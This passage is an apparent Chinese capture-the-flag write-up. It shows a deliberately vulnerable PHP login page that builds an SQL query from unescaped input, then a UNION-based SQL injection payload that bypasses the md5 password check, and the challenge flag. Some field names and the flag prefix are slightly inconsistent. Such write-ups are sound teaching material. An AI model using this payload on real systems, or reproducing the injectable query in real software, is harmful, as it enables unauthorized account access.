  

此题正是用到了第三条知识点：

```
<html>
<head>
Secure Web Login II
</head>
<body>
 
<?php
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
?>
 
 
<form method=post action=index.php>
<input type=text name=user value="Username">
<input type=password name=pass value="Password">
<input type=submit>
</form>
</body>
<a href="index.phps">Source</a>
</html>
```

意思是查询到的pw和输入的pw（经过md5加密后）相同，则输出flag；

playload：

```
user=' union select md5(1)#
pw=1
```

查询结果其实是：

| pw       |
| -------- |
| md5（1） |

于是输入pw=1即可满足；

nctf{union_select_is_wtf}
